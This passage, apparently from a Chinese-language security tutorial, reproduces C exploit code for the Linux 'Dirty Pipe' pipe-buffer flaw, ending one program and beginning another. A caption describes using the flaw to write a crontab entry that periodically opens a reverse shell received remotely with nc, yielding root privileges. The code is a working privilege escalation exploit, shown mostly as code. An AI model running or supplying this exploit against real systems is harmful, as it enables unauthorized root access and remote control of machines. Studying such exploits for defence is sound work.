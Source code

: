       131.        PIPE_BUF_FLAG_CAN_MERGE flag */
    
      132.     nbytes = write(p[1], data, data_size);
    
      133.     if (nbytes < 0) {
    
      134.         perror("write failed");
    
      135.         return EXIT_FAILURE;
    
      136.     }
    
      137.     if ((size_t)nbytes < data_size) {
    
      138.         fprintf(stderr, "short write\n");
    
      139.         return EXIT_FAILURE;
    
      140.     }
    
      141.     return EXIT_SUCCESS;
    
      142. }
    
    
    

![](https://gitee.com/fuli009/images/raw/master/public/20230714175315.png)

  * 通过漏洞写`crontab`计划任务文件，定时反弹一个shell，然后通过nc远程接收shell，从而实现提权。

    
          1. #define _GNU_SOURCE
    
      2. #include <unistd.h>
    
      3. #include <fcntl.h>
    
      4. #include <stdio.h>
    
      5. #include <stdlib.h>
    
      6. #include <string.h>
    
      7. #include <sys/stat.h>
    
      8. #include <sys/user.h>
    
      9.   10. #ifndef PAGE_SIZE
    
      11. #define PAGE_SIZE 4096
    
      12. #endif
    
      13.   14. /**
    
      15.  * Create a pipe where all "bufs" on the pipe_inode_info ring have the
    
      16.  * PIPE_BUF_FLAG_CAN_MERGE flag set.
    
      17.  */
    
      18. static void prepare_pipe(int p[2])
    
      19. {
    